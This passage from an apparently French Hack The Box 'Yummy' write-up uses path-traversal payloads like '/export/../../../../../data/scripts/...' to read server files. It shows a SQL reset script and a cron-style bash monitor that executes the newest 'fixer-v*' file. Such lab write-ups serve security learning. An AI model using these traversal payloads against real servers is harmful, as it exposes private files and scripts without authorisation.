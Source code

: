 Ce script se connecte à la base de données MySQL `yummy_db` en utilisant l'utilisateur `chef` et exécute les commandes SQL trouvées dans `/data/scripts/sqlappointments.sql`.

**sqlappointments.sql**

Nous pouvons également vérifier les commandes SQL avec le payload `/export/../../../../../data/scripts/sqlappointments.sql`.

![sql_appointments queries](/images/HTB-Yummy/sqlappointments.png)

```SQL
TRUNCATE table users;
TRUNCATE table appointments;
INSERT INTO appointments (appointment_email, appointment_name, appointment_date, appointment_time, appointment_people, appointment_message, role_id) VALUES ("chrisjohnson@email.net", "Chris Johnson", "2024-05-25", "11:45", "2", "No allergies, prefer table by the window", "customer");

<SNIP> 

INSERT INTO appointments (appointment_email, appointment_name, appointment_date, appointment_time, appointment_people, appointment_message, role_id) VALUES ("michaelsmith@domain.edu", "Michael Smith", "2024-11-05", "20:45", "2", "Need a socket for laptop charging", "customer");
```

La commande `truncate` vide les tables `users` et `appointments`. Des données sont aussi insérées dans la table `appointments` avec des détails de réservation tels que `appointment_email`, `appointment_name`, `appointment_date`, etc.

**dbmonitor.sh**
```
/export/../../../../data/scripts/dbmonitor.sh
```

![dbmonitor LFI request](/images/HTB-Yummy/dbmonitor.png)

![dbmonitor script content](/images/HTB-Yummy/dbmonitor2.png)

```bash
#!/bin/bash

timestamp=$(/usr/bin/date)
service=mysql
response=$(/usr/bin/systemctl is-active mysql)

if [ "$response" != 'active' ]; then
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
else
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
```